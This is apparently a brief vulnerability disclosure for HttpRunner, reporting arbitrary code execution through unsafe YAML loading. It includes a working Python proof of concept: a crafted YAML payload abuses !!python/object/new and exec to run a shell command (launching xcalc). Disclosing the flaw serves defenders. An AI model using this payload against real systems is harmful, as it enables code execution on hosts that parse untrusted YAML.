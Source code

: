 # Description

**HttpRunner** is a simple & elegant, yet powerful HTTP(S) testing framework.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>

repo: https://github.com/httprunner/httprunner

# Proof of Concept

```python
import os
#os.system('pip3 install httprunner')
from httprunner import loader
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
loader._load_yaml_file('pwn.yml')
```

* `pip3 install httprunner`
* `python3 exploit.py`
